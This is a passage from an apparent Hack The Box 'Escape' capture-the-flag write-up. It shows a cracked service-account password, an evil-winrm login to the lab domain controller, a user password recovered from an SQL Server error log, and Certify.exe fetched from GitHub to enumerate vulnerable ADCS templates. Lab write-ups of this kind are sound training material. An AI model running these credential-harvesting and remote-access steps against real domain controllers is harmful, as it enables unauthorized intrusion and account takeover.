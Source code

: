 Nice, we were able to intercept the sql_svc user's hash. Lets try to crack this with John:

escape_pw.png

Cool, we now how sql_svc credentials: sql_svc:REGGIE1234ronnie

We can now authenticate to the DC with these credentials using evil-winrm:

```
┌──(ryan㉿kali)-[~/HTB/Escape]
└─$ evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sql_svc\Documents> whoami
sequel\sql_svc
*Evil-WinRM* PS C:\Users\sql_svc\Documents> hostname
dc
```

Browsing around the target we find a file named ERRORLOG.BAK in `C:\SQLServer\Logs`

Inside the log file we find Ryan.Cooper's password:

```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

We can then use this credential to login to the target via evil-winrm, and grab the user.txt flag:

escape_user1.png

### Privilege Escalation

Running `whoami /all` I see ryan.cooper is in the `BUILTIN\Certificate Service DCOM Access` group. We may be able to exploit ADCS here.

Lets grab a copy of certify.exe from https://github.com/GhostPack/Certify and transfer it to the target. (I actually just grabbed a compiled ninary at https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

Here's the ouput of running the executable:

```
*Evil-WinRM* PS C:\temp> .\Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'
```